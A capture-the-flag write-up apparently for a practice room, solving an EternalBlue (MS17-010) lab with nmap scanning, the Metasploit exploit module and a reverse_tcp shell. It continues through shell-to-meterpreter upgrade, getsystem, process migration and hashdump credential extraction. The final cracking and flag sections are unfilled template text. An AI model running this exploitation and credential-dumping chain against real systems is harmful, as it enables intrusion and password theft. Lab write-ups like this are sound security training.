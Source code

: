 ## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  Running the exploit should lead you to see similar to this below. As seen in the text it says 'Meterpreter session 3 opened'. So the next step would be to navigate to it using the command:
<p></p>  
  
``` sessions 3 ```

  <p></p>  
  
![image](https://user-images.githubusercontent.com/66912443/186669699-49fc84fc-7b7a-49bf-b5e7-6d29bfba8a0b.png)
  
  ____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  Running 'getsytem':
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186670379-144fb6db-c4a8-48e7-8121-2c1bb294e465.png)
  
  Opening a dos shell and running whoami:
  
  ![image](https://user-images.githubusercontent.com/66912443/186670738-df061830-ee4b-4a00-a779-2d34e8402ddd.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  As seen in the cropped screenshot below, powershell.exe as well as many others are running at 'NT AUTHORITY/SYSTEM'. For simplicities sake I will stick with powershell, process ID 3056.
  <p></p>
  
![image](https://user-images.githubusercontent.com/66912443/186671522-82c4c813-c4f0-492d-a3d6-346b435e3657.png)
____________________________________________________________________________________________________________________   

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
This is as simple as the following command:
  
```migrate 3056 ```
  
This is useful as now we are running on a process that has system authority!
  
![image](https://user-images.githubusercontent.com/66912443/186671912-1726b9c4-7c78-41c4-934b-3772421e6a6b.png)

____________________________________________________________________________________________________________________   

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  The name of the non-default user is <i> jon </i>
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186672534-d803dffa-6966-49a6-8fff-7cb3614836bf.png)

____________________________________________________________________________________________________________________   
</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

Any folded content here. It requires an empty line just above it.

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

Any folded content here. It requires an empty line just above it.

</details>

